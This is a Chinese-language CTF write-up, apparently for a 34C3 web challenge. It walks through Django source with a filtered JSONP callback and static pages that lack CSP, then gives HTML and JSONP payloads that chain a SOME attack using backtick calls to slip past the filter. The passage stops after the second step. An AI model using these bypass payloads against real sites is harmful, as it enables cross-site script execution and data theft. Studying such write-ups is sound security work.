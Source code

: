 1、flag获取首先有一个前置条件
```
def get_flag(req, num):
    if req.user.username == 'admin' and req.META.get('REMOTE_ADDR') == '127.0.0.1':
        with open('/asdjkasecretflagfile%d' % num) as f:
            return f.read()
    else:
        return '34C3_JUSTKIDDINGGETADMINANDACCESSFROMLOCALHOSTNOOB'
```

后一个条件由于经过nginx反代，所以没什么用，主要问题是前一个。

req.user.username并不是通过django本身的session设置的，所以即使我们获取到settings中的SECRET_KEY也没有意义，也就是说，我们只能通过bot获取flag。

2、feed页面存在jsonp接口，但是有大把多过滤，忽略了能用上的``{}.$`这几个
```
@require_safe
def feed(req):
    posts = get_user_posts(req.user)
    posts_json = json.dumps([
        dict(author=p.author.username, title=p.title, content=p.content)
        for p in posts])
    type_ = req.GET.get('type')
    if type_ == 'json':
        resp = HttpResponse(posts_json)
        resp['Content-Type'] = 'application/json; charset=utf-8'
    elif type_ == 'jsonp':
        callback = req.GET.get('cb')
        bad = r'''[\]\\()\s"'\-*/%<>~|&^!?:;=*%0-9[]+'''
        if not callback.strip() or re.search(bad, callback):
            raise PermissionDenied
        resp = HttpResponse('%s(%s)' % (callback, posts_json))
        resp['Content-Type'] = 'text/javascript; charset=utf-8'
    return resp
```

3、整站的返回头是通过django middleware 添加，但是static目录是直接通过nginx处理的，所以没有CSP头


题目思路完整了，我们就需要构造可以利用的攻击链

无论我们怎么获取flag，我们都需要通过操作static页面来执行js传出，否则就会被CSP拦截，所以我们必须通过多个页面来相互操作修改页面，才能实现我们的需求。

这里需要用到一个在HCTF2017中提到过的攻击方式，叫做SOME.

关于SOME的细节可以看以前的博客
[https://lorexxar.cn/2017/11/15/hctf2017-deserted-world/](https://lorexxar.cn/2017/11/15/hctf2017-deserted-world/)

这里就不细讲了，通过SOME，我们可以通过执行js来操作另一个页面中的dom

执行流程大致如下
1、打开页面，通过a标签的的click来实现页面的跳转，跳转至localhost（nginx）下
```
<a id="aa" href="http://localhost/post/{post1}"></a>
<script src="/feed?type=jsonp&amp;cb=document.getElementById`aa`.click``,console.log"></script>
```
2、先拿flag1，两次点击，一个打开flag1页面，一个跳转到下一个js页面
```
<a id="aa" href="{post2}" target="_blank"></a>
<a id="bb" href="/flag1"></a>
<script src="/feed?type=jsonp&cb=document.getElementById`aa`.click``,document.getElementById`bb`.click``,console.log"></script>
```


  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/r67ihy6epkvcnkqvnqulsvjl/image.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/sgxf9gq2ni5i7osmlm17vzry/image.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/23ujazb8yck2rnzy9b6ow02s/image.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/nptyaixmrkwgizd1bce9yhe3/image.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/2tmhyv1f575lfz6apaeg0o4q/image.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/9tys2vihqrm3xznatpwkjzkm/image.png